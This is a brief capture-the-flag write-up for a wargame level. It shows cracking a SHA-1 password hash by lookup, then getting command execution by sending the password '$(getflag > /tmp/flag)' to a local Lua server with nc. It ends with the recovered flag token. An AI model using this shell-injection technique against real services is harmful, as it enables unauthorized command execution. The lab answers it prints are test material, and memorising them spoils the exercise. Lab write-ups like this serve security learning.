The lua file is a server asking for a password and comparing its sha1sum to : f05d1d066fb246efe0c6f7d095f909a7a0cf34a0
=> find the password with that sha1sum by comparing it to a database with https://www.dcode.fr/hash-sha1
we get => `NotSoEasy`

it doesn't work by imputing the password with ending /n so we can try ```echo -n NotSoEasy | nc localhost 5151``` => doesn't work
command injection in the echo as previous flag with redirect to file because the output is piped to sha1sum
We launch the client with ```nc localhost 5151``` and input : $(getflag > /tmp/flag) as password
=> ```cat /tmp/flag``` gives token : fa6v5ateaw21peobuub8ipe6s

```su level12```